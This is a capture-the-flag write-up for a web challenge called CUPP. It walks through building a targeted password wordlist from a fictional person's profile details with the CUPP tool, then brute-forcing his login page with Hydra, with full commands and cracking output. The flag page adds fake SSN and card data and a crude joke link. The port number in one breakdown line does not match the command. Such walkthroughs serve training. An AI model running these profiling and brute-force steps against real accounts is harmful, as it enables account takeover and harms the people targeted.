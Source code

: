 # CUPP

## Web: 100 Points

## Challenge

Can you get into Lucas' secrets?

[ [Start](http://challenges.laptophackingcoffee.org:3199/aboutme.php?) ]

## Solution

The title CUPP stands for Common User Passwords Profiler. It's a python program available on [Mebus's Github][1]. 

Clone the repo and start up the program. Use `./cupp.py -h` to show the help menu. Use `./cupp.py -i` to enter interactive mode:
```
$ git clone https://github.com/Mebus/cupp.git
$ cd cupp
$ ./cupp.py -i
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)
```

In interactive mode, enter in the details found on Lucas's [About Me][2] page. More detail is better:
```
> First Name: Lucas
> Surname: Endheimer
> Nickname: 
> Birthdate (DDMMYYYY): 27102006


> Partners) name: Becca
> Partners) nickname: Rebecca
> Partners) birthdate (DDMMYYYY): 18112005


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: Lucky
> Company name: Wilson


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: Mitnick    
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: n

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to lucas.txt, counting 2954 words.
[+] Now load your pistolero with lucas.txt and shoot! Good luck!
```

The program creates a word list and saves it to [lucas.txt](lucas.txt). Use this word list to crack Lucas's login page, which he mentions is at [secret.php][3]. 

First find out what POST data is sent via the login page. In Chrome, inspect the login page. Click the **Network** tab then login with `lucas` and `password`. Click on **secret.php** in the left column and take a look at the **Form Data**:
```
username=lucas&password=password&login=Submit
```

The form posts three variables: `username`, `password`, and `login`. The `login` var is set to `Submit` by default. 

Now crack the login using [Hydra][4], a parallelized login cracker which supports numerous protocols to attack. Use `hydra -h` bring up Hydra's help menu that shows command syntax, options, and examples. Here is the simplified syntax used for this challenge:
```
Syntax (simplified):
hydra [-l LOGIN | -L FILE] [-p PASS | -P FILE] [service://server[:PORT][/OPT]]
```

Assume that the username is `lucas` for this search. The Hydra command will look like this:
```
$ hydra -l lucas -P lucas.txt "http-post-form://challenges.laptophackingcoffee.org:3199/secret.php:username=^USER^&password=^PASS^&login=Submit:failed" -V
```

A few key notes about Hydra's syntax:
* `^USER^` is a keyword Hydra uses that is replaced at runtime with the data given in the `-l` or `-L` options. Likewise, `^PASS^` is a keyword replaced with the data in the `-p` or `-P` options. 
* The entire portion containing the `[service://server[:PORT][/OPT]` must be contained in double quotes (`"`).
* The `:failed` portion towards the end of the command is what Hydra looks for to check if the login failed. The word `failed` is from Lucas's failed login page which simply says: "Login failed!"

With all this in mind, the above command breaks down like this:
```
hydra                                   run the Hydra program
-l lucas                                set the login (username) to lucas
-P lucas.txt                            use lucas.txt as the password file
http-post-form://                       use HTTP POST service
challenges.laptophackingcoffee.org      set target server
:6199                                   set target port
/secret.php                             set target webpage
:username=^USER^                        set username var to ^USER^
&password=^PASS^                        set password var to ^PASS^
&login=Submit                           set login var to Submit
:failed                                 set failure text to look for
-V                                      use verbose mode
```

Wait a while. Grab a coffee. View the results:
```
...
[RE-ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Becca_2005" - 559 of 2958 [child 9] (0/4)
[ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Endheimer_1" - 560 of 2958 [child 3] (0/4)
[ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Endheimer_7" - 561 of 2958 [child 7] (0/4)
[STATUS] 80.14 tries/min, 561 tries in 00:07h, 2397 to do in 00:30h, 16 active
[3199][http-post-form] host: challenges.laptophackingcoffee.org   login: lucas   password: Becca_2005                                               
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-03 16:45:10
```

The result is a bit buried, but it's there: `login: lucas   password: Becca_2005`. Login with these credentials. Grab the flag:
```
Hi Lucas. Here's your secrets:

SSN: 554-42-2123
Mom's Debit Card: 4450-2234-5531-1138 2/21 471
Flag: LHC{p0wn3dluc45}
Beccas nudes: http://bitly.com/98K8eH
```

## Resources
* https://github.com/Mebus/cupp
* https://tools.kali.org/password-attacks/hydra
* https://www.youtube.com/watch?v=CWo_mjNjrjA


[1]:https://github.com/Mebus/cupp
[2]:http://challenges.laptophackingcoffee.org:3199/aboutme.php
[3]:http://challenges.laptophackingcoffee.org:3199/secret.php
[4]:https://tools.kali.org/password-attacks/hydra